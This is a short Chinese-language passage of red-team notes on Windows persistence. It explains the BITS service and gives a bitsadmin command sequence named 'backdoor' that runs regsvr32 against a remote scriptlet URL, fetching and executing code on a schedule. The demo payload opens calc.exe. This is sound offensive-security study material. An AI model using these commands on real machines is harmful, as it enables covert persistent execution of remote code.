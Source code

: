 ## BITS Jobs

BITS，后台智能传输服务，是一个 Windows 组件，它可以利用空闲的带宽在前台或后台异步传输文件，例如，当应用程序使用80%的可用带宽时，BITS将只使用剩下的20%。不影响其他网络应用程序的传输速度，并支持在重新启动计算机或重新建立网络连接之后自动恢复文件传输。

这里使用的是三好学生的一个测试用例：

```
#创建一个bitsadmin会话
bitsadmin /create backdoor

bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor

```

运行之后每隔一段时间calc.exe会被执行

![1574863632422](Persistence.assets/1574863632422.png)

关于Bitsadmin的操作可以参考：

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-examples

## Bootkit
